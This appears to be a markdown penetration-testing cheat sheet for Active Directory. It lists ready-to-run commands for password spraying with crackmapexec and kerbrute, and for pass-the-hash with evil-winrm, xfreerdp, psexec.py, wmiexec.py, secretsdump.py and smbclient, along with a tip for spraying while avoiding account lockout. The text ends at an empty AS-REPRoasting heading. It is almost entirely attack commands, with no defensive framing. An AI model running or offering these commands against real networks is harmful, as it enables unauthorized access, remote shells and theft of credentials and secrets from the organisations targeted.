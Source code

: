 **Requirements**:
- password
- check open ports at the target: Kerberos (88/TCP), LDAP (389/TCP), SMB (445/TCP), MSSQL (1433/TCP), RDP (3389/TCP), WinRM (5985/TCP)

**Use case**:
- given a password, you want to try it with a wordlist of usernames

Command list:
- *LDAP*, *SMB*, *MSSQL*, *RDP*, *WinRM*
	- avoid `STATUS_ACCOUNT_LOCKED_OUT`: testing credentials to a single host and then *spraying* to all of them
	- `crackmapexec ldap/smb/mssql/rdp/winrm <IP TARGET> -u <USERNAME WORDLIST> -p <PASSWORD> --continue-on-success`
- *Kerberos*
	- `.\kerbrute_linux_amd64 passwordspray -d <DOMAIN NAME> <USERNAME WORDLIST> "<single password to check>"`

## PassTheHash

**Requirements**:
- username and password hash of local account and/or domain
- check open ports at the target: LDAP (389/TCP), SMB (445/TCP), MSSQL (1433/TCP), RDP (3389/TCP), WinRM (5985/TCP)

**Use case**:
- reuse of accounts in different machines

LM hash, when not set, is equal to _aad3b435b51404eeaad3b435b51404ee_.

Command list:
- **crackmapexec (local accounts)**
	- `crackmapexec ldap/smb/mssql/rdp/winrm <IP TARGET> -u <USERNAME> -H <NT HASH> --local-auth --continue-on-success`
- **crackmapexec (domain accounts)**
	- avoid `STATUS_ACCOUNT_LOCKED_OUT`: testing credentials to a single host and then *spraying* to all of them
	- `crackmapexec ldap/smb/mssql/rdp/winrm <IP TARGET> -d <DOMAIN NAME> -u <USERNAME> -H <NT HASH> --continue-on-success`
- **evil-WinRM** (*WinRM + "Remote Management Users"*)
	- `evil-winrm -i <IP TARGET> -u <USERNAME> -H <HASH>`
- **RDP** (*RDP* + *Remote Desktop Users*)
	- `xfreerdp /d:<DOMAIN NAME> /v:<IP TARGET> /u:<USERNAME> /pth:<HASH>`
- **psexec.py**
	- `python3 psexec.py -hashes <LM HASH>:<NT HASH> <DOMAIN NAME>/<USERNAME>:@<IP TARGET>`
- **wmiexec.py** (*shell with specific user - does not make elevation to SYSTEM*)
	- `python3 wmiexec.py -hashes <LM HASH>:<NT HASH> <DOMAIN NAME>/<USERNAME>:@<IP TARGET>`
- **secretsdump.py (hash and secrets dump)**
	- `python3 secretsdump.py -hashes <LM HASH>:<NT HASH> <DOMAIN NAME>/<USERNAME>:@<IP TARGET>`
- **smbclient** (*share access*)
	- `smbclient \\\\<IP TARGET>\\<SHARE NAME> -U <USERNAME> --pw-nt-hash <NT HASH>`

## AS-REPRoasting(PostExp)
